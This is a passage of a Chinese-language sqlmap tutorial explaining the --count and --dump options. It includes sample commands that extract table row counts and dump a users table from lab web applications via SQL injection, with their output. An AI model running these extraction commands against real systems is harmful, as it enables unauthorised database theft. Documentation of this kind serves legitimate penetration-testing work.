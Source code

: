 **获取表中数据个数**

参数：`–count`

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个`Microsoft SQL Server`例子：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table  | Entries |
+----------------+---------+
| dbo.users  | 4   |
| dbo.users_blob | 2   |
+----------------+---------+
```

**获取整个表的数据**

参数：`–dump,-C,-T,-D,–start,–stop,–first,–last`

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取真个表的所有内容。

使用`-D,-T`参数指定想要获取哪个库的哪个表，不使用-D参数时，默认使用当前库。

列举一个`Firebird`的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME|
+----+--------+------------+
| 1  | luther | blisset|
| 2  | fluffy | bunny  |
| 3  | wu | ming   |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

可以获取指定库中的所有表的内容，只用`-dump`跟`-D`参数（不使用-T与-C参数）。

也可以用-dump跟-C获取指定的字段内容。

sqlmap为每个表生成了一个CSV文件。

如果你只想获取一段数据，可以使用–start和–stop参数，例如，你只想获取第一段数据可hi使用–stop

1，如果想获取第二段与第三段数据，使用参数 –start 1 –stop 3。

![](https://img.npfs06.top/20210326210503.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

也可以用`–first与–last`参数，获取第几个字符到第几个字符的内容，如果你想获取字段中地三个字符到第五个字符的内容，使用–first
